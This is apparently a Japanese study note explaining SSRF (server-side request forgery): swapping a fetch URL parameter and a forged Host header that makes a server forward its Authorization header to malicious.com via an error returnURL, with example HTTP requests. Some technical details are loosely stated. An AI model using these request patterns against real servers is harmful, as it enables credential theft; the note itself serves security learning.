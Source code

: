 ```yaml
---
分類: 攻撃手段
---
```

## 概要
SSRF (Server-Side Request Forgery)
スクリプトで、サーバに攻撃者の埋め込んだHTTPリクエストを実施させる攻撃。

## 仕組み
攻撃者が、脆弱性のあるサーバーの外部リンクへリクエストを送る機能を悪用し、リクエスト先のリンクを自分の用意した悪意のあるリンクにすり替えして、そこにリクエストを送らせる。

例えば、通常では下記のようにapiからデータを取得するリンクがあるとする
```url
https://example.com/fetch?url=https://api.example.com/data
```
そこのurlをすり替えることで、SSRFを実施することができる。

さらに複雑な手法として、ユーザーのアクセスサイトが別のサイトから情報を取得するプロセスがあるとして、
1.攻撃者がサイトに以下のリクエストを作成し、わざとエラーを発生させるように情報サイトの存在しないキーを埋め込み、hostを通常のアクセス中のサイトのFQDNから悪意のあるサイトへ変更
```HTTP
GET /key/not-existing-key HTTP/1.1
Host: malicious.com --changed from example.com

```
2.アクセス中のサイトから、データサイトへ上記のデータを含めてリクエストを送信、エラーハンドリングに使用するreturnURLに攻撃者が改竄したhostと組み合わせたリンクになるので、エラーが発生する場合は攻撃者のリンクがアクセス中のサイトに返される
```HTTP
GET /key/not-existing-key?returnURL=malicious.com/error HTTP/1.1

Authorization:Basic
...
```

3.データサイトに存在しないキーがクエリされたのでエラーメッセージが返される
```HTTP
HTTP/1.1 301 MOVED PERMANENTLY
```

4.エラーメッセージを受信したアクセスサイトがフォールバックして、returnURLにアクセス
```HTTP
GET malicious.com/error?errorcode=301 HTTP/1.1
```

こうしたことで、アクセスサイトがデータサイトに認証するためのヘッダーなども一緒に転送され、認証情報などが漏洩する。